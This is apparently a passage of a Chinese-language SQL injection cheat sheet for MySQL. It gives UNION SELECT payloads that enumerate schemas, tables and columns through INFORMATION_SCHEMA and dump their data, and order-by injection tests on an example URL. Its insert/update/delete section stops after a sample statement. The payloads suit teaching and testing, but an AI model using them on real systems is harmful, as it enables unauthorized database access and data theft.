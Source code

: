 ```
....
```
### 查询数据库
```
UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA #
```
### 查询表名
```
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() #
```
假设获取到数据库名为"databasename"后，对其进行十六进制编码得到0x64617461626173656e616d65。
```
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x64617461626173656e616d65 #
```
### 查询列名
由前一步获取到表名为tablename后，对其进行十六进制编码得到
```
UNION SELECT GROUP_CONCAT(column_name SEPARATOR+0x3c62723e) FROM+INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x7461626c656e616d65 #
```
### 获取数据
```
UNION SELECT GROUP_CONCAT(column_1,column_2 SEPARATOR+0x3c62723e) FROM databasename.tablename #
```
## insert/update/delete注入
参考：[SQL Injection in Insert Update and Delete Statements](https://www.exploit-db.com/docs/33253.pdf)
假设后台语句为：
```
insert into user(id,name,pass) values (1,"chybeta","123456");
```



## order by后注入
此部分整理自[瞌睡龙:MySql注入科普](http://static.hx99.net/static/drops/tips-123.html)
oder by由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。
### 检测方法
一般带有oder或者orderby的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：http://www.test.com/list.php?order=vote 根据vote字段排序。

找到投票数最大的票数num然后构造以下链接，看排序是否变化。：
```
list.php?order=abs(vote-(length(user())>0)*num)+asc
```

还有一种方法不需要知道任何字段信息，使用rand函数：
```
list.php?order=rand(true)
list.php?order=rand(false)
```
以上两个会返回不同的排序。
